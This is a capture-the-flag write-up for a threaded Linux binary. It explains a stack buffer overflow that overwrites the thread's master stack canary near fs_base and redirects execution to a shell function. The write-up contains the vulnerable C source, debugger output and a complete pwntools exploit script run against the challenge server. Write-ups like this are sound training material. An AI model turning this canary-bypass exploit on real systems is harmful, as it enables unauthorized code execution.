

# Write up

Source code of binary is given

```
#include <pthread.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void giveshell() { execve("/bin/sh", 0, 0); }
void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void read_bytes(char *buf, int size) {
  int i;

  for (i = 0; i < size; i++)
    if (read(0, buf + i*8, 8) < 8)
      return;
}

void thread_routine() {
  char buf[256];
  int size = 0;
  printf("Size: ");
  scanf("%d", &size);
  printf("Data: ");
  read_bytes(buf, size);
}

int main() {
  pthread_t thread_t;

  init();

  if (pthread_create(&thread_t, NULL, (void *)thread_routine, NULL) < 0) {
    perror("thread create error:");
    exit(0);
  }
  pthread_join(thread_t, 0);
  return 0;
}

```

# Primitives

In function **read_bytes**, there are buffer overflow vuln.

```
void read_bytes(char *buf, int size) {
  int i;

  for (i = 0; i < size; i++)
    if (read(0, buf + i*8, 8) < 8)
      return;
}

```

Stack looks like this

```
   fs_base <br>

+----------------+
|                |
| thread_routine |
|                |
|      buf       |
+----------------+
|                |
|   read_bytes   |
|                |
+----------------+
```

So, if we continue bof for **buf**, we can overwrite master canary. <br>

If we calculate, we can find out the distance between buf and **fs_base**(0x928) <br>

But, simply writing code for b'A' * 0x928 + (canary) results in segmentation fault. <br>



```
-> 0x7f1431348af2 c6807209000000          <NO_SYMBOL>   mov    BYTE PTR [rax + 0x972], 0x0
   0x7f1431348af9 c3                      <NO_SYMBOL>   ret

gef> p $rax
$1 = 0x4141414141414141
```

**Cannot access memory at address 0x4141414141414ab3** <br>

So, at that position we have to put writable memory address(ex: bss)

```
gef> vmmap
[ Legend:  Code | Heap | Stack | Writable | ReadOnly | None | RWX ]
Start              End                Size               Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000001000 0x0000000000000000 r-- /home/mc_thread/mc_thread
0x0000000000401000 0x0000000000402000 0x0000000000001000 0x0000000000001000 r-x /home/mc_thread/mc_thread
0x0000000000402000 0x0000000000403000 0x0000000000001000 0x0000000000002000 r-- /home/mc_thread/mc_thread
0x0000000000403000 0x0000000000404000 0x0000000000001000 0x0000000000002000 r-- /home/mc_thread/mc_thread
0x0000000000404000 0x0000000000405000 0x0000000000001000 0x0000000000003000 rw- /home/mc_thread/mc_thread
0x0000000001f68000 0x0000000001f89000 0x0000000000021000 0x0000000000000000 rw- [heap]
```

We can use 0x404000 <br>

Final exploitation looks like this

```
from pwn import *
p = remote('host1.dreamhack.games', 8685)

p.recvuntil(b'Size: ')
p.sendline(b'294')
p.recvuntil(b'Data: ')

payload = b'A' * 8

for i in range(35):
    p.send(payload)

p.send(p64(0x401256))

for i in range(290 - 36):
    p.send(payload)

payload = p64(0x404000)

p.send(payload)

payload = b'A' * 8

p.send(payload)
p.send(payload)
p.send(payload)
p.send(payload)
p.send(payload)

p.interactive()
```

Be sure to put address of **giveshell** function on right place(ret). 